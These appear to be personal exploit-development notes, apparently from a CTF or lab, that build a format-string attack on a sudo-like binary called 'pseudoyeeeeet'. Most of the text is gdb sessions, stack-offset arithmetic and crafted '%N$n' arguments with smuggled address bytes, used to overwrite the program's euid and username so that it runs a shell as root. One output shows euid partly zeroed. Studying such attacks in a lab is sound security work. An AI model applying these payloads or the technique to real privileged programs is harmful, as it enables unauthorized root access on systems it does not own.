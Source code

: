 Using [[snprintf]]
In `getpwent2` somehow overwrite both `username_` and `euid`
 - Not sure if something like this is actually possible, it relies on `printf` basically not printing anything for `%n` (I don't think it does?)
```
>>> gdb --args env -i ./pseudoyeeeeet $'%100$nVladimirRootin' /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' 'abc' ''
(gdb) p &euid
$1 = (uid_t (*)[2]) 0x7fffffffecf0
(gdb) x/xg argv[3]
0x7fffffffefdb: 0x00007fffffffecf0
// Not properly aligned

>>> gdb --args env -i ./pseudoyeeeeet $'%100$nVladimirRootin' /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' 'abcdef' ''
>>> (gdb) x/xg argv[3]
0x7fffffffefd8: 0x00007fffffffecf0
(gdb) p &euid
$1 = (uid_t (*)[2]) 0x7fffffffecf0
// Continue and step into sprintf (:147)
(gdb) p $rsp + 8
$2 = (void *) 0x7fffffffeb10

>>> python3
>>> 0x7fffffffefd8 - 0x7fffffffeb10
1224
>>> 1224 / 8 + 6
159.0

>>> gdb --args env -i ./pseudoyeeeeet $'%159$nVladimirRootin' /bin/bash $'\xf0\xec\xff\xff\xff\x7f' '' 'abcdef' ''
// This is seg faulting and idk why
```
 - Instead of smuggling a pointer, `getpwent2` just takes the `euid` pointer as an argument
```
>>> gdb --args env -i ./pseudoyeeeeet $'%100$nVladimirRootin' /bin/bash
(gdb) p &euid
$1 = (uid_t (*)[2]) 0x7fffffffed20
// Continue to getpwent2
(gdb) p &euid
$2 = (uid_t **) 0x7fffffffeb48
(gdb) x/xg &euid
0x7fffffffeb48: 0x00007fffffffed20
// Step into sprintf
(gdb) p $rsp + 8
$3 = (void *) 0x7fffffffeb40

// Calculate argument offset
>>> python3
>>> (0x7fffffffeb48 - 0x7fffffffeb40) / 8 + 6
7.0

// New argument
>>> gdb --args env -i ./pseudoyeeeeet $'%7$nVladimirRootin' /bin/bash
```
 - For some reason `%7`  doesn't work, although `%8` clobbers username and `%6` clobbers `euid[0]` without hitting `euid[1]`
	 - I think that's because `sprintf` takes 3 inputs, so the 5th string formatted input goes on the stack instead of the 6th one (so the above python argument should be +5, not +6)
		 - This is clobbering `euid[0]` and not `euid[1]` because ints are only 4 bytes
```
>>> env -i ./pseudoyeeeeet $'%6$nRootpertMurdoch' /bin/sh
😸: Found passwd entry for 'RootpertMurdoch' (0)
Upon successful authentication, I shall execve into:
/bin/sh
password for %6$nRootpertMurdoch:
```
```
>>> gdb --args env -i ./pseudoyeeeeet $'%6$nRootpertMurdoch' /bin/sh
(gdb) x/xg &euid
0x7fffffffeb48: 0x00007fffffffed20
(gdb) x/xg 0x00007fffffffed20
0x7fffffffed20: 0x000007ec000007ec
(gdb) n
149             FILE * passwd = fopen_passwd();
(gdb) x/xg 0x00007fffffffed20
0x7fffffffed20: 0x000007ec00000000
```
 - In that case we might have to go back to making a pointer to halfway into `euid`
```
>>> gdb --args env -i ./pseudoyeeeeet $'%158$nVladimirRootin' /bin/bash $'\xf4\xec\xff\xff\xff\x7f' '' 'abcdef' ''
// Argument value is 158 instead of 159 because sprintf takes 3 inputs
```
